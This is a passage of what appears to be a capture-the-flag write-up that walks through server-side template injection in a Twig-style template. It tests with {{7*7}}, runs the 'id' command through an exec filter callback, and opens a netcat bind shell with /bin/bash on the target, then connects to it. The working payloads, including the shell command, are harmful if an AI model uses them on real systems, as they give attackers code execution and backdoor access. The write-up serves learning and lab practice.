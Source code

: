 From here, let's go back to any of the links and attempt to inject the following: `{ {7*7} }`. If the injection is successful we should see that the title page returns `49`.

__Note__: Remove the spaces between the brackets in the 7\*7 because the inject won't work! I had to make spaces between these because the code was reflecting back to my website!

<a href="/images/gds9-8.png"><img src="/images/gds9-8.png"></a>

Just a side note: If you want to read more about SST Injection's then I suggest you read this [Blog Post](http://blog.portswigger.net/2015/08/server-side-template-injection.html) by PortSwigger.

Alright, so our injection was successful and the title returned back `49`. This means that the vulnerability is viable to exploit.

Let's inject the following to see if we have access to the backend of the system:

```
{ {_self.env.registerUndefinedFilterCallback("exec")} }{ {_self.env.getFilter("id")} }
```

__Note__: Remove the spaces between the brackets in the code because the inject won't work! I had to make spaces between these because the code was reflecting back to my website!

<a href="/images/gds9-9.png"><img src="/images/gds9-9.png"></a>

Awesome so the `id` command returned our user info and reflected it back to the title.

## Finding the Hall of Fame Token:

Now that we can inject commands to the backend of the system - let's try and open up a tcp shell for backdoor access.

We can do so by injecting the following:

```
{ {_self.env.registerUndefinedFilterCallback("exec")} }{ {_self.env.getFilter("nc -nlvp 1234 -e /bin/bash ")} }
```

__Note__: Remove the spaces between the brackets in the code because the inject won't work! I had to make spaces between these because the code was reflecting back to my website!

You should see that the website is stuck on "__Connecting...__" which means that the netcat backdoor is waiting for an incoming connection.

We can now go ahead and connect to our backdoor via netcat.

```console
root@kali:~/gds# nc -v 192.168.0.8 1234
192.168.0.8: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.8] 1234 (?) open
```
